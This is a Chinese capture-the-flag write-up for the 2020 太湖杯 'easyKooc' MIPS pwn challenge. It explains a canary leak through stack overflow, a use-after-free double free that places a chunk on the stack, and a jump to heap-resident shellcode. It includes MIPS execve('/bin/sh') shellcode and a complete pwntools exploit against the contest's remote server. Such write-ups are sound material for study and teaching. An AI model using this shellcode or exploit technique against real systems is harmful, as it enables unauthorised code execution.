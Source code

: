 ```yaml
---
layout:     post
title:      太湖杯2020 easyKooc wp
subtitle:   记太湖杯2020的一道mips题
date:       2020-11-08
author:     X1ng
header-img: 太湖杯2020.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


看到物联网ctf，还以为会是各种裸机程序、RTOS的题目，，然而pwn好像也都是堆题or2，然而我太菜了只出了一题mips签到

菜鸡落泪

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs0r2ec6j313808macq.jpg)

开启了 和canary保护，mips下不支持NX保护，所以这里的NX开不开都是一样的

用ghidra打开查看反汇编代码

![](https://tva1.sinaimg.cn/large/0081Kckwly1gky9ijt2ryj30u015o7a4.jpg)

一开始会送一个gift，就是栈的地址

可以直接看到第三个分支是向栈上写入一些内容，然后把输入的内容用printf输出一遍，动调发现有栈溢出

add函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs2thtscj30w80oc763.jpg)

只能申请0x38大小的chunk，在分配chunk前并不会清空chunk中的信息，然后会用write函数输出一遍chunk中的内容

delete函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs3011nrj30vo0hc0tm.jpg)

delete存在uaf漏洞

看到这里思路就是通过栈溢出覆盖canary低位的`\x00`来泄露canary，然后在栈上构造`0x00000041`让栈满足fastbin的分配条件，由于栈的地址已经给出，double free将chunk分配到栈上，就可以实现rop

突然发现mips上的rop跟x86下的不太一样，用来找rop的ida脚本装不好，mips指令也没有搞得很明白（菜鸡再次落泪），所以最后还是决定用申请fastbin时候只输入`\n`，利用chunk上残留的fd泄露堆地址，然后把shellcode写在堆地址中，覆盖返回地址为堆地址

但是pwntools里`shellcraft.mips.sh()`生成的shellcode太长，然后面向互联网编写exp，在[ctf-wiki](https://ctf-wiki.github.io/ctf-wiki//pwn/linux/mips/mips_rop-zh/)上找了一段0x30长度的shellcode

```python
shellcode  = b""

shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404
```

后面又发现一些小问题，本地io和远程io又有点不一样导致远程没办法接收堆地址，然后发现每次泄露传回来的地址都一样，才想起来alsr直接是关闭的，连堆地址都是固定的了

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhsmd535uj30o6086jsx.jpg)

所以直接将shellcode传入第一个chunk，返回地址覆盖成`0x413008`，把canary修复后正常退出即可getshell

exp:

```python
from pwn import*
import sys

context.binary = "easyKooc"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("121.36.166.138", 8890)# 
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./mipsel-linux-gnu", "./easyKooc"])
else:
    p = process(["qemu-mipsel-static", "-g", "1237", "-L", "./mipsel-linux-gnu", "./easyKooc"])


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(idx,con):
	ru('your choice')
	sl('1')
	ru('todo id!')
	sl(str(idx))
	ru('content')
	sl(con)

def delete(idx):
	ru('your choice')
	sl('2')
	ru('todo id!')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('your choice')
	sl('3')
	ru('leave?')
	sl(str(idx))
	ru('info:')
	sl(con)

shellcode = "\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += "\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += "\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += "\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += "\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += "\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += "\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += "\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += "\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += "\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += "\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += "\x0c\x01\x01\x01"	 # syscall 0x40404


ru('motto!')
sl(shellcode)
ru('gift for you: 0x')
stack = int(p.recv(8),16)
print hex(stack)

ru('your choice')
sl('3')
ru('to leave?')
sl('a'*0x20)
ru('The message for you is ')
rc(0x21)
canary = u32(rc(3).rjust(4,'\x00'))
print hex(canary)

add(1,'a')
add(2,'b')
add(3,'c')
#add(4,'d')
delete(1)
delete(2)
delete(1)

ru('your choice')
sl('3')
ru('to leave?')
sd('a'*0x1c+p32(0)+p32(0x41))

add(4,p32(stack+0x24))
add(5,'')
#p.recvline()
#heap = u32(rc(0x3a)[0x12:0x15].rjust(4,'\x08'))
#print hex(heap) #失败的io
add(6,'')

ru('your choice')
sl('1')
ru('todo id!')
sl('7')
ru('content')
#sd('A'*4+'B'*4+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
#sd('A'*4+p32(heap)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
sd('A'*4+p32(0x413008)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
ru('your choice')
sl('3')
ru('to leave?')
sd('b'*0x20+p32(canary))


ia()
```

